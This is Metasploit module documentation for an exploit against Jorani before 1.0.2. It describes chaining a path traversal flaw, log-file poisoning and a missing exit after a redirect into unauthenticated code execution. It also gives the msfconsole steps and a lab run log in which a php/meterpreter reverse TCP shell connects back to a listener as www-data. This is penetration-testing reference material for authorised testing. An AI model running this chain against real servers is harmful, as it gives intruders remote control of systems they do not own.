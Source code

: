 ## Vulnerable Application

Jorani prior to 1.0.2 allows unauthenticated users to execute arbitrary code.

This is due to a lack of sanitization on the language parameter, which can lead to the file inclusion of arbitrary ".php" files.

Moreover, the log file for jorani ends with ".php" in Jorani < 1.0.2.

Log poisoning is possible, an attacker can abuse this to store malicious data in the log file.

Data like '<?php ...;?>' can been added to the log file, then if this file is included by php, it will be executed.

Finally, the controller responsible for recovering a page doesn't properly redirect requests made by Ajax.

So the scripts will not stop after the redirection because an exit statement is missing.

Because of this, the attacker can make the script continue and reach the LFI vulnerability without being authenticated.

So by chaining theses 3 vulnerabilities an unauthenticated user can execute arbitrary code on the application.

This module has been tested successfully on Jorani 1.0.0, Ubuntu 20.04 (x86_64) with kernel version 5.15.0-75.

### Installation Steps
For a step by step installation tutorial on Ubuntu please refer to [How to install Jorani](https://jorani.org/how-to-install-jorani.html)

## Verification Steps
1. Start `msfconsole`
2. `use exploit/multi/php/jorani_path_trav`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`. The result expected is `The target appears to be vulnerable.`
5. Default payload for the exploit will be `php/meterpreter/reverse_tcp`
6. set `LHOST`
7. `exploit`
8. Confirm you have now a cmd session as www-data

## Options

### TARGETURI (optional)
The path to the jorani website. By default it is empty.

## Scenarios

```
msf6 exploit(multi/php/jorani_path_trav) > options

Module options (exploit/multi/php/jorani_path_trav):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.199.158   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  jorani           yes       The base path of Jorani
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Jorani < 1.0.2



View the full module info with the info, or info -d command.

msf6 exploit(multi/php/jorani_path_trav) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Jorani version
[+] Jorani seems to be running on the target!
[+] Found version: 1.0.0
[+] The target appears to be vulnerable.
[*] Trying to exploit LFI
[*] Recovering CSRF token
[+] CSRF found: be7e8205ad5f1fae2834478acdd0b546
[*] Poisoning log with payload..
[*] Sending 1st payload
[*] Including poisoned log file log-2023-08-18.php.
[+] Triggering payload
[*] Sending stage (39927 bytes) to 172.16.199.158
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.158:39624) at 2023-08-18 15:01:55 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 5.15.0-79-generic #86~20.04.2-Ubuntu SMP Mon Jul 17 23:27:17 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > exit
```

